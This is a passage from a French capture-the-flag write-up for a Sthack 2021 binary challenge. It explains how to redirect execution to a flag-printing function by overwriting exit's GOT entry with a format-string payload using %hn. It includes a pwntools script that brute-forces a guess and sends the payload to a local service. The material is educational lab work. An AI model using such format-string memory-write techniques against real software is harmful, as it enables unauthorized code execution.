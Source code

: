 Une fois le binaire récupéré (les adresses qui ne contiennent pas l'opcode \x00), on peut trouver le flag dans le binaire.

## Partie 3 - Execution d'une fonction interne

Le binaire est disponible pour cette partie : [beersandflags_2](https://github.com/ZenSecCTF/zensecctf.github.io/releases/download/Sthack2021-Files/beersandflags_2)

Pour accéder au flag numéro 3, il va falloir forcer le binaire à passer dans une fonction. La fonction "**flag2**" va exécuter la commande `cat /home/ctf/flag2.txt`

La manière la plus simple de réussir à aller dans cette fonction est de réécrire l'adresse de exit avec l'adresse de flag2, ou celle d'un call vers cette fonction.

![](/static/sthack2021/beers-and-flags/upload_974bf74eeffa4153e9b9bd2728e7a917.png)


On peut voir que l'adresse de exit commence par `0x0804` ce qui va nous permettre de pouvoir réecrire seulement deux octets de l'adresse


![](/static/sthack2021/beers-and-flags/upload_2a1325e94c87bae3b4e5266d8c8d0d6e.png)

Le payload pour la "format string" va être le suivant :

`JUNK EXIT@GOT %PADDINGx%OFFSET$hn`

L'opération $hn va écrire le nombre d'octets de l'input, à l'adresse pointé par l'offset. Pour augmenter artificiellement la taille de l'input, on utilise la notation `%PADDINGx%` ou PADDING vaut la valeur à définir à laquelle on soustrait le `JUNK` et la taille de l'adresse.

On va aussi en profiter pour ajouter un mode interactif à notre fonction send_payload pour pouvoir lire le flag et ça sera utile pour la suite : 

```python
def send_payload(payload, interactive=False):
    r = remote('localhost', 1234, level='error')
    r.recvuntil(b'guess the 4 digit number:\n')
    for n in range(1000, 10000):
        if is_good_number(n):
            r.send(str(n).encode()+b"\n")
            res = r.recvuntil(b'\n')
            if b'4B0F' in res:
                try:
                    r.recvuntil(b'Enter your nickname for scoreboard :')
                    r.sendline(payload)
                    r.recvuntil(b'#3 - \n')
                    if interactive:
                        r.interactive()
                    leak = r.recvuntil(b'\n')
                    r.close()
                    return leak
                except:
                    return ""
```
